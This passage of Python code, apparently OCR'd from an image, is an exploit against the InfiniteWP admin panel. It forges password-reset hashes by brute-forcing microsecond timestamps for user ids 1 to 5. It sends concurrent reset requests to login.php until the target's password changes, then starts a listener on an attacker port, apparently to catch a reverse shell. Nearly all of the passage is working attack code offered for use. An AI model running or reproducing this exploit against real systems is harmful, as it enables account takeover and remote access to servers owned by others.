 ```
                       # a:3:{s:8:"hashCode";s:13:"resetPassword";s:10:"uniqueTime";d:1597167784.175625;s:7:"userPin";s:1:"1";}
    serialized_resethash = template_ts_uid %(timestamp, uid)
    hash_obj = sha1(serialized_resethash.encode())
    reset_hash = hash_obj.hexdigest()
    log.debug("serialized reset_hash: {} -- sha1: {}".format(serialized_resethash, reset_hash))
    return reset_hash
def brute_pw_reset():
    global args, start_time
    if args.uid is None:
        # in the default installation the uid is 1, but let's try also some others in case they have installed 
        # the "manage-users" addon: https://infinitewp.com/docs/addons/manage-users/
        uids = [1,2,3,4,5]
    else:
        uids = [args.uid]
    log.debug("using uids: {} -- start ts {}".format(uids, args.start_ts))
    sha1_email = sha1(args.email.encode()).hexdigest()
    with FuturesSession() as session: # max_workers=4
        for uid in uids:
            log.info("starting with uid {}...".format(uid))
            microsecond = 0
            hashes_tested = 0
            while microsecond < args.micros_elapsed:
                futures = []
                # try 100k per time to avoid ram cluttering
                for _ in range(100000):
                    # test_ts = args.start_ts + datetime.timedelta(microseconds=microsecond).replace(tzinfo=datetime.timezone.utc)
                    # unix_ts = int(test_ts.timestamp())
                    ms_string = str(args.start_ts) + "." + str(microsecond).zfill(6)
                    reset_hash = generate_reset_hash(ms_string, uid)
                    futures.append(session.post("{}/login.php".format(args.rhost), verify=False, data={"transID": sha1_email, \
                        "action":"resetPasswordChange", \
                        "resetHash": reset_hash, \
                        "newPassword": args.new_password \
                    }, allow_redirects=False))
                    microsecond += 1
                for future in as_completed(futures):
                    if hashes_tested % 50000 == 0 and hashes_tested > 0:
                        log.info("tested {} ({}%) hashes so far for uid {}...".format(hashes_tested, int((hashes_tested/args.micros_elapsed)*100), uid))
                    hashes_tested += 1
                    response = future.result()
                    log.debug("response status code {} - location {}".format(response.status_code, response.headers["location"]))
                    if "successMsg" in response.headers["location"] :
                        log.info("password has been reset, you can now login using {}:{}".format(args.email, args.new_password))
                        log.info("removing from the queue all the remaining hashes...")
                        for future in futures:
                            future.cancel()
                        return
            log.info("target user doesn't have uid {}...".format(uid))
    log.error("just finished testing all {} hashes, the exploit has failed".format(hashes_tested))
    sys.exit(1)
def handler():
    global args
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", args.lport))
    s.listen(1)
```